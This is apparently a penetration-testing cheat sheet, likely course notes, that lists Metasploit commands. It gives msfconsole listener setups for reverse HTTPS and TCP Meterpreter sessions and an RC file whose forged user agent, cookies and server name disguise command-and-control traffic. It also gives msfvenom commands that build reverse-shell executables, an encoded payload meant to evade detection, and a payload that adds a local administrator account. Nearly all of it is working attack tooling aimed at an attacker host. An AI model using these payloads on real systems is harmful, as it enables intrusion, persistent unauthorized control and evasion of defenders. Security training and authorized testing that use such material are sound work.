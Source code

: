 ### Metasploit Payloads

#### Windows Listeners

```
# rev https meterp x64
msfconsole -x "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_https; set LHOST 192.168.49.83; set LPORT 443; set EXITFUNC thread; set verbose true; exploit -j;"

# Encoded staged rev https meterp x64
msfconsole -x "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_https; set LHOST 192.168.49.83; set LPORT 443; set EXITFUNC thread; set verbose true; set EnableStageEncoding true; set StageEncoder x64/xor_dynamic; exploit -j"
```

#### Linux Listeners

```
msfconsole -x "use exploit/multi/handler; set payload linux/x64/meterpreter/reverse_tcp; set LHOST 192.168.49.83; set LPORT 80; set verbose true; exploit -j"
```

#### RC Files

Alternatively, store the handler/listener setup in a [configuration](../src/misc/meterp-rev-https-x64.rc).

```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_https
set LHOST 192.168.49.83
set LPORT 443
set EXITFUNC thread
set verbose true
set EnableStageEncoding true
set StageEncoder x64/xor_dynamic
set HttpUserAgent "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.85 Safari/537.36 Edg/90.0.818.42"
set HttpServerName Nginx
set HandlerSSLCert /home/sysadm/osep/modules/9-network-filters/skeler.pem
set HttpUnknownRequestResponse "<html><body><h1>zzz</h1></body></html>"
set HttpCookie "PHPSESS: 123913"
set HttpReferer "https://192.168.49.83:8080/logout?t=12313"
exploit -j
```

#### Windows Payload Generation

```
# add local admin
msfvenom -p windows/x64/exec CMD='cmd.exe /k "net user /add likes Passw0rd! && net localgroup administrators likes /add && exit"' -o adduser2.exe -f exe

# reverse tcp
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.49.83 LPORT=444 -f exe -o tl.exe

# staged powershell meterp x86
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.49.83 LPORT=443 EXITFUNC=thread -f ps1

# staged rev https meterp x64
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.49.83 LPORT=443 EXITFUNC=thread -f exe -o met.exe

# Encoded staged rev https meterp x64
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.49.83 LPORT=443 EXITFUNC=thread -f raw -o met.bin -e x64/xor_dynamic

```